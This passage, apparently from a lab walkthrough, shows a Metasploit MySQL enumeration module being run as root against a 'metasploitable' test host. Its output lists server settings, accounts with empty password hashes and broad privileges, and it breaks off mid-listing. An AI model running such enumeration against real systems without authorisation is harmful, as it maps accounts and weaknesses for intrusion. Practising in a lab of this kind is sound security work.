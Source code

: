 `set RHOSTS 192.168.8.142`

```
RHOSTS => 192.168.8.142
```

`set USERNAME root`

```
USERNAME => root
```

`run`

```
[*] Running module against 192.168.8.142

[*] 192.168.8.142:3306 - Running MySQL Enumerator...
[*] 192.168.8.142:3306 - Enumerating Parameters
[*] 192.168.8.142:3306 -        MySQL Version: 5.0.51a-3ubuntu5
[*] 192.168.8.142:3306 -        Compiled for the following OS: debian-linux-gnu
[*] 192.168.8.142:3306 -        Architecture: i486
[*] 192.168.8.142:3306 -        Server Hostname: metasploitable
[*] 192.168.8.142:3306 -        Data Directory: /var/lib/mysql/
[*] 192.168.8.142:3306 -        Logging of queries and logins: OFF
[*] 192.168.8.142:3306 -        Old Password Hashing Algorithm OFF
[*] 192.168.8.142:3306 -        Loading of local files: ON
[*] 192.168.8.142:3306 -        Deny logins with old Pre-4.1 Passwords: OFF
[*] 192.168.8.142:3306 -        Allow Use of symlinks for Database Files: YES
[*] 192.168.8.142:3306 -        Allow Table Merge: YES
[*] 192.168.8.142:3306 -        SSL Connections: Enabled
[*] 192.168.8.142:3306 -        SSL CA Certificate: /etc/mysql/cacert.pem
[*] 192.168.8.142:3306 -        SSL Key: /etc/mysql/server-key.pem
[*] 192.168.8.142:3306 -        SSL Certificate: /etc/mysql/server-cert.pem
[*] 192.168.8.142:3306 - Enumerating Accounts:
[*] 192.168.8.142:3306 -        List of Accounts with Password Hashes:
[+] 192.168.8.142:3306 -                User: debian-sys-maint Host:  Password Hash: 
[+] 192.168.8.142:3306 -                User: root Host: % Password Hash: 
[+] 192.168.8.142:3306 -                User: guest Host: % Password Hash: 
[*] 192.168.8.142:3306 -        The following users have GRANT Privilege:
[*] 192.168.8.142:3306 -                User: debian-sys-maint Host: 
[*] 192.168.8.142:3306 -                User: root Host: %
[*] 192.168.8.142:3306 -                User: guest Host: %
[*] 192.168.8.142:3306 -        The following users have CREATE USER Privilege:
[*] 192.168.8.142:3306 -                User: root Host: %
[*] 192.168.8.142:3306 -                User: guest Host: %
[*] 192.168.8.142:3306 -        The following users have RELOAD Privilege:
[*] 192.168.8.142:3306 -                User: debian-sys-maint Host: 
[*] 192.168.8.142:3306 -                User: root Host: %
[*] 192.168.8.142:3306 -                User: guest Host: %
[*] 192.168.8.142:3306 -        The following users have SHUTDOWN Privilege:
[*] 192.168.8.142:3306 -                User: debian-sys-maint Host: 
[*] 192.168.8.142:3306 -                User: root Host: %
[*] 192.168.8.142:3306 -                User: guest Host: %
[*] 192.168.8.142:3306 -        The following users have SUPER Privilege:
[*] 192.168.8.142:3306 -                User: debian-sys-maint Host: 
[*] 192.168.8.142:3306 -                User: root Host: %
[*] 192.168.8.142:3306 -                User: guest Host: %
[*] 192.168.8.142:3306 -        The following users have FILE Privilege:
[*] 192.168.8.142:3306 -                User: debian-sys-maint Host: 
[*] 192.168.8.142:3306 -                User: root Host: %
[*] 192.168.8.142:3306 -                User: guest Host: %
[*] 192.168.8.142:3306 -        The following users have PROCESS Privilege:
[*] 192.168.8.142:3306 -                User: debian-sys-maint Host: 
[*] 192.168.8.142:3306 -                User: root Host: %
[*] 192.168.8.142:3306 -                User: guest Host: %
[*] 192.168.8.142:3306 -        The following accounts have privileges to the mysql database:
```